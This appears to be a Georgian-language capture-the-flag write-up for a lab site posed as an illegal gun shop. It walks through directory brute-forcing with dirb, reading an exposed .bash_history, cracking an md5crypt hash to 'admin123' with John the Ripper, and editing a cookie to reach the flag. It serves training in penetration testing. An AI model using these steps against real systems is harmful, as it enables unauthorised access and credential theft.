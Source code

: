 # პირობა 
### კრიმინალურმა პოლიციამ აღმოაჩინა ვებ გვერდი საიდანაც შესაძლებელია იარაღის შეძენა უკანონოდ. თქვენი მიზანია განახორციელოთ შეტევა აღნიშნულ ვებგვერდზე და აღმოაჩინოთ კოდური გასაღები.

# ამოხსნის სარჩევი
## [Question 1](#question_1):
#### 1. [ვებ-გვერდის მიმოხილვა](#overview)  
#### 2. [ვებ-გვერდის ენუმერაცია (dirb)](#dirb)
#### 3. [.bash_history-ის მიმოხილვა](#.bash_history)
#### 4. [ctf/admin გვერდის მიმოხილვა](#ctf-admin-page)
#### 5. [პაროლის დაკრეკვა (John The Ripper)](#john)
#### 6. [I ფლეგი](#flag_1)

# ამოხსნა

<a name="question_1"/>

კითხვა 1: პირველი ნაწილის გასაღები


<a name="overview"/>

### 1. ვებ-გვერდის მიმოხილვა
პირველრიგში, შევიდეთ მოცემულ ფეიჯზე. შესვლისას გვხვდება ჩვეულებრივი საიტი, რომელიც ბევრს არაფერს გვეუბნება. არც მისი ინსპექტით გახსნის შემდეგ ვხვდებით ბევრ რამეს.
 ![index.php](.images/index.png)

<a name="dirb"/>

### 2. ვებ-გვერდის ენუმერაცია (dirb)
ვინაიდან მოცემული ფეიჯი არანაირ ინფორმაციას არ გვაძლევს, bruteforce-ით გადავუაროთ სახელებს და შევეცადოთ ვიპოვოთ ამ სერვერზე არსებული ფაილები თუ დირექტორიები.
ამისთვის გამოვიყენებთ ხელსაწყოს სახელად dirb:
```bash
dirb <url_base> [<wordlist_file(s)>] [options]

url_base - მისამართი რომელზეც გვინდა bruteforce (*)
[<wordlist_file(s)>] - მისამართი ფაილზე, რომელიც შეიცავს სიტვებს. dirb გადაუყვება და ამ სიტყვების გამოყენებით შეეცდება იპოვოს დამალული მისამართი სერვერზე.
[options] - სხვადასხვა ფლეგები (შეგიძლია დოკუმენტაციაში წაიკIთხოთ დეტალურად)
```
გავუშვათ ბრძანება და ვნახოთ შედეგი:
```bash
root@kali:~$ dirb http://185.212.254.50/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat May 30 16:44:59 2020
URL_BASE: http://185.212.254.50/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://185.212.254.50/ ----
+ http://185.212.254.50/.bash_history (CODE:200|SIZE:1311)                     
+ http://185.212.254.50/index.html (CODE:200|SIZE:200)                         
+ http://185.212.254.50/server-status (CODE:403|SIZE:302)                      
==> DIRECTORY: http://185.212.254.50/wp/                                       

---- Entering directory: http://185.212.254.50/wp/ ----
==> DIRECTORY: http://185.212.254.50/wp/wordpress/

# აქედან ყველა დირექტორია/ფაილი ვორდპრესს ეხებოდა, ამიტომაც აქ აღარ გამოვიტან.
# სრული ლოგის სანახავად გადადით dirb.log ფაილზე 

-----------------
END_TIME: Sat May 30 17:08:25 2020
DOWNLOADED: 202928 - FOUND: 16             

```
სრული ლოგი შეგიძლიათ იხილოთ აქ --> [dirb.log](dirb.log)

dirb-ის აუთფუთიდან შეგვიძლია დავასკვნათ, რომ საიტი აწყობილია wordpress-ზე და სხვადასხვა ლინკებზე გადასასვლელად გვჭირდება აუთენთიფიკაცია, მაგრამ სანამ გადავიდოდეთ აუთენთიფიკაციის გატეხვაზე დავაკვირდეთ რომ dirb ბრძანებამ აღმოაჩინა კიდევ ერთი ფაილი: `.bash_history` (ეს ფაილი გამოიყენება ტერმინალში აკრეფილი ბრძანებების შესანახად)

გავხსნათ ნაპოვნი ფაილი და გადავავლოთ თვალი (უბრალოდ შევიდეთ შემდეგ მისამართზე __185.212.254.50/.bash_history__ ):

ფაილი შეგიძლია იხილოთ აქ დაკლიკებით --> [.bash_history](.bash_history)

<a name=".bash_history"/>

### 3. .bash_history-ის მიმოხილვა 
[.bash_history](.bash_history) ფაილის გახსნისას ვხედავთ, რომ სერვერი აწეულია apache2-ზე. 
აქ ჩვენთვის საინტერესო არის შემდეგი ორი ხაზი:
* `mkdir /var/www/html/ctf/admin` (ctf არის capture the flag-ის აბრივიატურა, შესაბამისად ჩვენთვის გამოსადეგი რამ უნდა იყოს)
* `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`

<a name="ctf-admin-page"/>

### 4. ctf/admin გვერდის მიმოხილვა
გადავიდეთ ctf/admin ფეიჯზე:
![.ctf/admin](.images/ctf-admin.png)
როგორც ვხედავთ, გვჭირდება იუზერნეიმი და პაროლი, ასევე გვეუბნება რომ გამოვიყენოთ [John The Ripper](https://www.openwall.com/john/). ეს არის ხელსაწყო, რომელიც ჰეშების plain-text-ში აღდგენაში გამოიყენება. 

<a name="john"/>

### 5. პაროლის დაკრეკვა (John The Ripper) 
როგორც ctf/admin ფეიჯზე ვნახეთ, გვჭირდება იუზერნეიმი და პაროლი. შეგვიძლია ასევე დავუბრუნდეთ [.bash_history](.bash_history) ფაილს სადაც ვიპოვეთ ეს ჩანაწერი `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`. როგორც ვხედავთ შენახული მომხმარებლის იუზერნეიმი არის 'admin', პაროლი კი დაჰეშილი სახით ინახება, სწორედ აქ გამოგვადგება ჩვენი ჯონი.
```bash
john <hash.txt> --wordlist=<pass.txt>

hash.txt - ფაილი რომელიც შეიცავს თქვენს ჰეშ(ებ)ს
            ფაილში შეიძლება შეინახოთ ან მარტო ჰეშები (ყოველი ახალი ჰეში ახალ ხაზზე) ან იუზერნეიმი და ჰეში ოწერტილით გამოყოფილი [Username:Hash]
pass.txt - ფაილი რომელიც შეიცავს იმ სიტყვების სიას, რომლებიც უნდა შევამოწმოთ 
```

* როგორც ვნახეთ უნდა მოვამზადოთ ჰეშების სია. ჩვენს შემთხვევაში მარტო ერთი ჰეშია. ავიღოთ ის ბრძანება, რომელიც სერვერზე გაუშვეს და გავუშვათ ჩვენც
`echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`
ამ ბრძანების შემდეგ 'passwords' ფაილში ჩაიწერება 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.'
შეგიძლიათ თქვენით შექმნათ ახალი ფაილი და ხელით ჩაწეროთ ეს კონტენტი.
შექმნილი ფაილი შეგიძლიათ იხილოთ აქ --> [passwords](passwords)

* გვჭირდება ასევე ფაილი, რომელიც შეიცავს პაროლებს. ასეთი სიისთვის ყველაზე კარგი ვარიანტია [rockyou.txt](https://www.scrapmaker.com/download/data/wordlists/dictionaries/rockyou.txt). (ფაილის სიდიდის გამო, მხოლოდ დაზიპული ფაილის მოწოდება შემიძლია: [rockyou.txt.gz](../../utils/wordlists/rockyou.txt.gz) ამოაარქივეთ და ჩვეულებრივად შეძლებთ გამოყენებას)

ავაწყოთ და გავუშვათ ჩვენი ბრძანება
```bash
john Pentest/GunMarket/passwords --wordlist='utils/wordlists/rockyou.txt'
```

აუთფუთი:
```bash
john Pentest/GunMarket/passwords --wordlist='utils/wordlists/rockyou.txt'
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
admin123         (admin)
1g 0:00:00:01 DONE (2020-05-31 07:13) 0.9009g/s 81059p/s 81059c/s 81059C/s agape1..a00000
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

`admin123         (admin)` <-- ეს ხაზი გვეუბნება რომ `admin` იუზერნეიმის მქონე მომხმარებლის დაჰეშილი პაროლი იყო `admin123`.

P.S. გაშვებულმა ბრძანებამ შეიძლება შემდეგი აუთფუთი დაგიბრუნოთ
```bash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
No password hashes left to crack (see FAQ)
```
`No password hashes left to crack (see FAQ)` ამით ვხვდებით რომ ყველა პაროლი გაშიფრულია, მაგრამ აუთფუთში არაფერს არ გვიჩვენებს. ჯონი ჭკვიანი როჟაა და იმახსოვრებს იმ ჰეშებს, რომლებიც აქამდე გაშიფრა. ეს მესიჯიც მაგას ნიშნავს. ადრე გაშიფრული პაროლების გასაშიფრად გამოვიყენოთ `--show` ფლეგი, რომელსაც გადაეცემა გასაშიფრი ჰეშების სია. გავუშვათ შემდეგი ბრძანება:
```bash
john --show Pentest/GunMarket/passwords 
```
აუთფუთი:
```bash
admin:admin123

1 password hash cracked, 0 left
```
<a name="flag_1"/>

### 6. I ფლეგი
დავუბრუნდეთ ctf/admin ფეიჯს და შევიყვანოთ შემდეგი მონაცემები
```bash
User Name: admin
Password: admin123
```
გადაგვიყვანა შემდეგ ფეიჯზე:
![.admin_page](.images/admin_page.png)
როგორც ვხედავთ მოცემულია [Cookie Monster](https://en.wikipedia.org/wiki/Cookie_Monster)-ის სურათი. ეს ერთგვარ მინიშნებად შეგვიძლია მივიღოთ და ჩავიხედოთ cookie-ებში. (inspect -> storage -> Cookies -> http://185.212.254.50)
![.admin_page_cookies](.images/admin_page_cookies.png)
username-ს გრაფაში value-დ უწერია guest_user. აქ შეგვიძლია ნებისმიერი რამ ჩავწეროთ და ფეიჯის დარეფრეშების შემდეგ გამოჩნდება ჩვენი ჩაწერილი ველიუ. იუზერნებიმი იყო admin. ფეიჯის თაითლიც არის admin_page. შეიძლება ვივარაუდოთ, რომ value უნდა იყოს admin. შევცვალოთ დავარეფრეშოთ და ვნახოთ რა მოხდება:
![.admin_page_flag](.images/admin_page_flag.png)
გილოცავთ! თქვენ იპოვეთ პირველი flag. ასევე მივიღეთ მინიშნება : 'Check our wordpress site for secret staff /wp/wordpress/ !!!'

